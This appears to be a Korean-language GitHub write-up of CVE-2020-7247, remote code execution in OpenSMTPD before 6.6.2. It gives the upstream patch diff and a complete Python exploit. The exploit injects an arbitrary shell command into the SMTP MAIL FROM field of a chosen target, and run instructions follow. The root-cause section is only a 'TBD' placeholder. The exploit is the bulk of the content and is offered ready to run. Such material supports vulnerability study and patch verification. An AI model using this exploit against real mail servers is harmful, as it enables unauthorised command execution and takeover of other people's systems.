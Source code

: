 # Remote code execution in OpenSMTPD

## Information
- CVE : CVE-2020-7247
- 해당 소프트웨어 : OpenSMPTD
- 해당 버전 : OpenSMPTD < 6.6.2
- 취약점 유형 : etc

## Root Cause

### patch
```patch
diff --git a/usr.sbin/smtpd/smtp_session.c b/usr.sbin/smtpd/smtp_session.c
index f9cf444786d..1af4c6f9776 100644
--- a/usr.sbin/smtpd/smtp_session.c
+++ b/usr.sbin/smtpd/smtp_session.c
@@ -1,4 +1,4 @@
-/*	$OpenBSD: smtp_session.c,v 1.421 2020/01/08 00:05:38 gilles Exp $	*/
+/*	$OpenBSD: smtp_session.c,v 1.422 2020/01/28 21:35:00 gilles Exp $	*/
 
 /*
  * Copyright (c) 2008 Gilles Chehade <gilles@poolp.org>
@@ -2236,25 +2236,23 @@ smtp_mailaddr(struct mailaddr *maddr, char *line, int mailfrom, char **args,
 		memmove(maddr->user, p, strlen(p) + 1);
 	}
 
-	if (!valid_localpart(maddr->user) ||
-	    !valid_domainpart(maddr->domain)) {
-		/* accept empty return-path in MAIL FROM, required for bounces */
-		if (mailfrom && maddr->user[0] == '\0' && maddr->domain[0] == '\0')
-			return (1);
+	/* accept empty return-path in MAIL FROM, required for bounces */
+	if (mailfrom && maddr->user[0] == '\0' && maddr->domain[0] == '\0')
+		return (1);
 
-		/* no user-part, reject */
-		if (maddr->user[0] == '\0')
-			return (0);
-
-		/* no domain, local user */
-		if (maddr->domain[0] == '\0') {
-			(void)strlcpy(maddr->domain, domain,
-			    sizeof(maddr->domain));
-			return (1);
-		}
+	/* no or invalid user-part, reject */
+	if (maddr->user[0] == '\0' || !valid_localpart(maddr->user))
 		return (0);
+
+	/* no domain part, local user */
+	if (maddr->domain[0] == '\0') {
+		(void)strlcpy(maddr->domain, domain,
+			sizeof(maddr->domain));
 	}
 
+	if (!valid_domainpart(maddr->domain))
+		return (0);
+
 	return (1);
 }
 
```

TBD


## Exploit
```python
from socket import *
import sys

if len(sys.argv) != 4:
    print('Usage {} <target ip> <target port> <command>'.format(sys.argv[0]))
    print("E.g. {} 127.0.0.1 25 'touch /tmp/x'".format(sys.argv[0]))
    sys.exit(1)

ADDR = sys.argv[1]
PORT = int(sys.argv[2])
CMD = sys.argv[3]

s = socket(AF_INET, SOCK_STREAM)
s.connect((ADDR, PORT))

res = s.recv(1024)
if 'OpenSMTPD' not in str(res):
    print('[!] No OpenSMTPD detected')
    print('[!] Received {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)

print('[*] OpenSMTPD detected')
s.send(b'HELO x\r\n')
res = s.recv(1024)
if '250' not in str(res):
    print('[!] Error connecting, expected 250')
    print('[!] Received: {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)

print('[*] Connected, sending payload')
s.send(bytes('MAIL FROM:<;{};>\r\n'.format(CMD), 'utf-8'))
res = s.recv(1024)
if '250' not in str(res):
    print('[!] Error sending payload, expected 250')
    print('[!] Received: {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)

print('[*] Payload sent')
s.send(b'RCPT TO:<root>\r\n')
s.recv(1024)
s.send(b'DATA\r\n')
s.recv(1024)
s.send(b'\r\nxxx\r\n.\r\n')
s.recv(1024)
s.send(b'QUIT\r\n')
s.recv(1024)
print('[*] Done')
```

## How to run exploit?
> target OS : OpenBSD 6.6
> 
1) OpenBSD 6.6에서 openSMTP 서비스 활성화
2) 다른 호스트에서 exploit.py 실행(python exploit.py <target ip> <target port> <command>)

## Reference
- [mitre cve db](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7247)
- [writeup by qualys](https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt)
- [firo solutions blog](https://blog.firosolutions.com/exploits/opensmtpd-remote-vulnerability/)